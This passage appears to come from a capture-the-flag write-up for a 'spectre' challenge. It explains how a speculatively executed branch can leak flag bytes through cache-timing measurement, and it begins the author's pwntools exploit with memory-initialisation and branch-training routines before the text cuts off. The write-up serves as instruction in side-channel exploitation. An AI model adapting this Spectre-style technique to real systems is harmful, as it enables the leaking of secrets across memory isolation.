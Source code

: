 3. Use the byte we have fetched to access the corresponding page:

   After the function builtin\_bc returned (of cource in predictive executed branch), we "have" a byte of flag, and we access \*(0x414100000000 + x << 12), read or write are both ok. Now we can put the page into cpu's cache.

   For example, the first byte of flag is 'p', we then access the address of (0x414100000000 + 0x70 << 12), and it will be put into cache, when we finally measure the time we access it again, the time will significantly reduce compared to those which are not cached, then we can know the first byte is 'p'.

4. Measure the time we access each page, and get the result.

## Exploit and Details

Here is my exploit:

```python
from pwn import *
from translator import *
DEBUG =0 

r8 = 0
r9 = 1
r10 = 2
r11 = 3
r12 = 4
r13 = 5
r14 = 6
r15 = 7

threshold = 0x50

if DEBUG: 
    p = process(['./spectre', 'flag'])
# context.log_level = 'debug'
def init(c):
    c.movc(r10, 0)
    # i = 0

    l_target = c.getloop()
    #loopstart

    c.movc(r9, 2) 
    c.mov(r8, r10)
    c.shl(r8, r9)
    # r8 = i << 2 (i * 4)

    c.movc(r9, 0xffffffff)
    c.store(r8, r9)
    # *(0x414100000000 + i * 4) = 0xffffffff

    c.movc(r9, 1)
    c.add(r10, r9)
    # i = i + 1

    c.loop(0x40000, l_target, r10)


def train_bc(c):
    for i in range(50):
        c.movc(r8, 0x1000 - 0x8)
        c.bc()

def cache_clear(c):
```